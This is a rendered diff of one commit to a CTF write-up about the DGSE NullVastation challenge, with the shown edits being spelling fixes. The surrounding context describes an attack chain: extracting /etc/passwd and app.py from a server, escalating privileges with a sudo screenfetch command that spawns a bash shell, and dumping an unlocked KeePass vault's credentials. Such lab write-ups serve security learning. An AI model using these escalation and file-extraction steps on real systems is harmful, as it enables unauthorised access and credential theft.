

Before and after one commit to Z3R0ZZZ/Zeroz-Sec-Notes, a Markdown page: note/ctf/DGSE_NullVastation_Challenge.md, 3 parts joined by grey strips. Rendered like a GitHub page; grey boxes are pictures that could not be loaded.

````diff
--- a/note/ctf/DGSE_NullVastation_Challenge.md
+++ b/note/ctf/DGSE_NullVastation_Challenge.md
@@ -378,11 +378,11 @@ xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
 </Properties>
 ```
 
-and as exepected I'm able to extract file passwd exfil :
+and as expected I'm able to extract file passwd exfil :
 
 ![alt text](note/ctf/asset/DGSENull5.png)
 
-Okay but doesn't give me access to the server i can only dump file, maybe some of them will be interresting !
+Okay but doesn't give me access to the server i can only dump file, maybe some of them will be interesting !
 
 app.py exfil :
 
@@ -617,7 +617,7 @@ User executor may run the following commands on document-station:
 
 Perfect , I can now pass as an admin ! : `sudo -u administrator /usr/bin/screenfetch -o screenCommand=/bin/bash -s`
 
-now i can see files contain in administrator :
+now I can see files contained in administrator :
 
 ```bash
 administrator@document-station:~$ ls -la
@@ -632,7 +632,7 @@ lrwxrwxrwx 1 root          root               9 Apr 29 08:46 .bash_history -> /d
 -rw-r----- 1 administrator administrator   4229 Apr  2 11:29 vault.kdbx
 ```
 
-why would a logo should be stocked here ? also the vault is propably the more interresting thing !
+why would a logo should be stored here ? also the vault is propably the more interesting thing !
 
 I download the logo and the vault and of course it is locked...
 
@@ -653,12 +653,12 @@ I try to unlock the vault with this file and it worked !
 LGSA5l1%YHngd&GbjxR4Or operator ssh
 RM{f5289180cb760ca5416760f3ca7ec80cd09bc1c3} flag
 token:abcd1234 token old-gitlab
-graf1234 graphana
+graf1234 Grafana
 qa123vpn vpn
 Aws123456789! AWS
 ```
 
-there were also some interresting notes :
+there were also some interesting notes :
 
 ```
 [NULLVASTATION OPS - INTERNAL USE ONLY]
````
Also changed, not shown: other parts of note/ctf/DGSE_NullVastation_Challenge.md (+22 -100 lines).
